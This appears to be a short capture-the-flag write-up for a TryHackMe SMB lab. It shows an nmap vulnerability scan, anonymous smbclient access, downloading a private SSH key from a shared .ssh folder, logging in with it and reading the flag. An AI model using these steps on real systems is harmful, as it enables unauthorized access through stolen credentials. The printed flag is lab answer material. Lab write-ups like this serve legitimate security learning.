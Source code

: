  This Lab looks at exploiting SMB
```shell
export ip=10.10.230.44 # make use of enviroment variables

-   `-sV`: service/version scan
-   `--script vuln`: run a script scan with the [vuln scripts](https://nmap.org/nsedoc/categories/vuln.html).
-   `-oN nmap-$ip.out`: output in normal format to the file

nmap -sV --script vuln -oN nmap-$ip.out $ip

```

login to smb
```shell
smbclient //10.10.10.2/profiles -U Anonymous -p 445
```
Read a file in smbClient
```shell
more "Working From Home Information.txt" 

# need to add the double quotes as cat doesnt work with SMB

Found email from James to John Cactus stating to use ssh to login to the server

found email: it@polointernalcoms.uk
```

If information states to login via ssh check in the .ssh folder in the shared space 
```shell
cd .ssh
```

use mget to download the file to the the current directory on the attack machine 
```shell
smb: \.ssh\> mget id_rsa

```
need to change permissions on the file inorder to make sure we have correct access
```shell
chmod 600 id_rsa  
```

add the private key to the ssh request
```shell

ssh -i id_rsa cactus@$ip  
#ls the directory
ls
#read the flag from smb.txt
cat smb.txt

THM{smb_is_fun_eh?}

```
